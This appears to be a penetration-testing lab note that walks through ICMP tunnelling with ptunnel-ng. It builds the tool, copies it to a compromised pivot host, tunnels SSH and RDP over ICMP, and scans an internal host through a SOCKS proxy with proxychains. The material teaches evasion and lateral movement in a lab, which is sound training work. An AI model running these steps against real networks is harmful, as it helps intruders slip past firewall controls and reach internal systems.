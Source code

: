 # ICMP Tunneling with SOCKS
# Theory
## Setting Up & Using ptunnel-ng
#### Cloning Ptunnel-ng

```bash
git clone https://github.com/utoni/ptunnel-ng.git
```
#### Building Ptunnel-ng with Autogen.sh

```bash
sudo ./autogen.sh 
```
#### Alternative approach of building a static binary

```bash
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```
#### Transferring Ptunnel-ng to the Pivot Host

```bash
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```
#### Starting the ptunnel-ng Server on the Target Host

```bash
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

```bash
-r<Destination IP where to forward the tunneled TCP traffic> 
-R<Destination Port on that IP>
```

The IP address following `-r` should be the IP of the jump-box we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.

Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.
#### Connecting to ptunnel-ng Server from Attack Host

```bash
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).
#### Tunneling an SSH connection through an ICMP Tunnel

```bash
ssh -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 11 May 2022 03:10:15 PM UTC

  System load:             0.0
  Usage of /:              39.6% of 13.72GB
  Memory usage:            37%
  Swap usage:              0%
  Processes:               183
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$ 
```

If configured correctly, we will be able to enter credentials and have an SSH session all through the ICMP tunnel.

On the client & server side of the connection, we will notice ptunnel-ng gives us session logs and traffic statistics associated with the traffic that passes through the ICMP tunnel. This is one way we can confirm that our traffic is passing from client to server utilizing ICMP.
#### Viewing Tunnel Traffic Statistics

```bash
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```
#### Enabling Dynamic Port Forwarding over SSH

```bash
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```
#### Proxychaining through the ICMP Tunnel

```bash
proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```
# Practical Example

```
`ptunnel-ng` opens ICMP-based tunnel to `RDP_HOST:22`.

`ssh -D 9050` connects through that tunnel and gives us **SOCKS5 proxy**.

We use `proxychains` to pivot tools through the proxy:
```

```bash
# Scenario
# Attacker IP: 10.10.16.251
# Compromised Pivot Host IP (external): 10.129.167.168
# Pivot Internal IP: 172.16.5.129
# Target Internal RDP Host: 172.16.5.19

# 1. Clone ptunnel-ng (on attacker machine)
git clone https://github.com/utoni/ptunnel-ng.git

# 2. Build ptunnel-ng (on attacker)
cd ptunnel-ng/
sudo apt install automake autoconf -y
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh

# 3. Transfer ptunnel-ng to the pivot (from attacker)
scp -r ptunnel-ng ubuntu@10.129.167.168:~/

# 4. Start ptunnel-ng Server on the Pivot Host (run this in SSH session to 10.129.167.168)
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r172.16.5.19 -R3389

# 5. On Attacker: Start ptunnel-ng client
# -p: external IP of the pivot (10.129.167.168)
# -l: local port to bind on attacker (127.0.0.1:2222)
# -r: target internal IP (RDP host)
# -R: target port (3389)
sudo ./ptunnel-ng -p10.129.167.168 -l2222 -r172.16.5.19 -R3389

# 6. Access RDP via tunnel (on attacker)
xfreerdp /v:127.0.0.1 /port:2222

# 7. [Optional] Dynamic port forward for proxychains use
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

# 8. Configure proxychains to use local dynamic SOCKS proxy
# Edit /etc/proxychains.conf:
# socks5 127.0.0.1 9050

# 9. Use proxy-aware tools over the ICMP tunnel
proxychains nmap -sT -Pn -p3389 172.16.5.19
```

